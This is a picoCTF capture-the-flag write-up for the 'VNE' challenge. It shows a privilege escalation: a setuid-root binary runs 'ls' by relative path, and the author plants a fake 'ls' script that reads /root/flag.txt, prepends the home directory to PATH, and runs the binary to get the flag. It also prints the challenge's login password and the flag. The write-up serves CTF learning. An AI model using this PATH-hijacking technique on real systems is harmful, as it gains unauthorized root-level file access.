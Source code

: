 # VNE
We've got a binary that can list directories as root, try it out !! (200 Points)
ssh to saturn.picoctf.net:55701, and run the binary named "bin" once connected. Login as ctf-player with the password, 3f39b042

## Solution
The program calls some listing program on the path that we set to the environment variable 'SECRET\_DIR':
```
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
flag.txt
ctf-player@pico-chall$
```

As we can see there is a file name 'flag.txt' in the root folder.

Downloading the binary 'bin' and quickly reversing it with Ghidra, show that there is a call of the C++ function 'system()' to call a certain program. The guess it, that 'ls' is called. Debugging with gdb shows that this assumption is correct:
```
[root@picoctf VNE]$ gdb ./bin
GNU gdb (GDB) 13.1
[...]
pwndbg> r
[...]
process 292738 is executing new program: /usr/bin/ls
[...]
pwndbg>
```

So now our guess is that the binarie calls 'ls' just over the relative path. It will check the PATH environment variable of the calling user to find the real binary. If this is the case we can just create our own 'ls' file in the home directory and manipulate the PATH variable to check first in this directory for binaries.

Our own 'ls' file looks like this:
```bash
#!/bin/bash
cat /root/flag.txt
```

Upload it to the server, manipulate the PATH and run 'bin' again:
```
ctf-player@pico-chall$ ls -al
total 32
drwxr-xr-x 1 ctf-player ctf-player    51 Mar 22 18:27 .
drwxr-xr-x 1 root       root          24 Mar 16 01:59 ..
-rw------- 1 ctf-player ctf-player    39 Mar 22 18:26 .bash_history
drwx------ 2 ctf-player ctf-player    34 Mar 22 18:25 .cache
-rw-r--r-- 1 root       root          67 Mar 16 01:59 .profile
-rwsr-xr-x 1 root       root       18752 Mar 16 01:59 bin
-rwxr-xr-x 1 ctf-player ctf-player    31 Mar 22 18:27 ls
ctf-player@pico-chall$ cat ls
#!/bin/bash
cat /root/flag.txt
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
flag.txt
ctf-player@pico-chall$ env
SHELL=/bin/bash
PWD=/home/ctf-player
LOGNAME=ctf-player
SECRET_DIR=/root
MOTD_SHOWN=pam
HOME=/home/ctf-player
SSH_CONNECTION=127.0.0.1 54414 127.0.0.1 22
TERM=tmux-256color
USER=ctf-player
SHLVL=1
PS1=\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$
SSH_CLIENT=127.0.0.1 54414 22
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/env
ctf-player@pico-chall$ export PATH=/home/ctf-player:$PATH
ctf-player@pico-chall$ echo $PATH
/home/ctf-player:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf-player@pico-chall$
ctf-player@pico-chall$
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}ctf-player@pico-chall$ logout
Connection to saturn.picoctf.net closed.
[root@picoctf VNE]$
```

My guess seems correct and we got the flag.
